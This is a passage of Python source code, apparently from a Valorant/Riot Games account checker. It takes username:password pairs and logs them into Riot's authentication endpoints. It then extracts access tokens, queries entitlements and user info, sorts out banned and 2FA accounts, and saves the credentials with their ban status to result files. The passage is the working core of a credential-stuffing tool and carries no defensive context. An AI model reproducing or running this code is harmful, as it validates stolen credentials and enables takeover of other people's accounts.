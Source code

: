             if choice == 2:
                print(f"{Fore.BLUE}[2FA]{Fore.RESET} {username}:{password} Type: {typebanned}")
            if choice == 3:
                print(f"{Fore.BLUE}[2FA]{Fore.RESET} {username}:{password} Type: {typebanned}")
            continue
        else:
            pattern = compile('access_token=((?:[a-zA-Z]|\d|\.|-|_)*).*id_token=((?:[a-zA-Z]|\d|\.|-|_)*).*expires_in=(\d*)')
            data = pattern.findall(data['response']['parameters']['uri'])[0]
            token = data[0]
            typebanned = "unbann"
            
        headers = {
            'User-Agent': 'RiotClient/51.0.0.4429735.4381201 rso-auth (Windows;10;;Professional, x64)',
            'Authorization': f'Bearer {token}',
        }
        r = session.post('https://entitlements.auth.riotgames.com/api/token/v1', headers=headers, json={})
        entitlement = r.json()['entitlements_token']
        r = session.post('https://auth.riotgames.com/userinfo', headers=headers, json={})
        data = r.json()
        try:
            GameName =  r.text.split('game_name":"')[1].split('"')[0]
        except:
            errors += 1
            continue                
        Tag = r.text.split('tag_line":"')[1].split('"')[0]  
        Sub = r.text.split('sub":"')[1].split('"')[0] 
        EmailVerified = r.text.split('email_verified":')[1].split('"')[0]
        data1 = data['acct']
        unix_time = data1['created_at']
        unix_time = int(unix_time)
        result_s = pandas.to_datetime(unix_time,unit='ms')
        str(result_s)
        typebanned = None
        result_s1 = None
        try:
            data = r.json()
            data2 = data['ban']
            data3 = data2['restrictions']
            for x in data3:
                typebanned = x['type']
            if typebanned == "PERMANENT_BAN":
                result_s1 = "Permantent"
                bannedtxt = open("results//ban.txt", "a+", encoding='utf-8')
                bannedtxt.write(f"[--------------[Valorant]--------------]\n| User&Pass: {username}:{password}\n| Banntype: {typebanned}\n| Expire {result_s1}\n| Creattion: {result_s}\n|[-------------------------------------]\n\n")
                bannedtxt.close()
                if choice == 2:
                    print(f"{Fore.RED}[Banned]{Fore.RESET} {username}:{password} Type: {typebanned}")
                if choice == 3:
                    print(f"{Fore.RED}[Banned]{Fore.RESET} {username}:{password} Type: {typebanned}")
                perban += 1
                continue
            if typebanned == "PERMA_BAN":
                result_s1 = "Permantent"
                bannedtxt = open("results//ban.txt", "a+", encoding='utf-8')
                bannedtxt.write(f"[--------------[Valorant]--------------]\n| User&Pass: {username}:{password}\n| Banntype: {typebanned}\n| Expire {result_s1}\n| Creattion: {result_s}\n|[-------------------------------------]\n\n")
                bannedtxt.close()
                if choice == 2:
                    print(f"{Fore.RED}[Banned]{Fore.RESET} {username}:{password} Type: {typebanned}")
                if choice == 3: